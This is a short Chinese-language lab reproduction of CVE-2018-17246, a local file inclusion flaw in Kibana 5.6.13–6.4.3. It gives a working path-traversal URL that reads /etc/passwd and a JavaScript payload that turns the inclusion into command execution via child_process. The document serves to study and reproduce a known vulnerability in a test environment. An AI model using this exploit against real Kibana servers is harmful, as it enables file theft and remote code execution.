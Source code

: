 （CVE-2018-17246）Kibana Local File Inclusion
=============================================

一、漏洞简介
------------

Kibana 为 Elassticsearch
设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

二、漏洞影响
------------

Kibana 5.6.13到6.4.3

三、复现过程
------------

直接访问如下URL，来包含文件`/etc/passwd`：

    http://www.0-sec.org:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![1.png](./resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId24.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

    // docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
    export default {asJson: function() {return require("child_process").execSync("id").toString()}}

成功包含并返回命令执行结果：

![2.png](./resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId25.png)
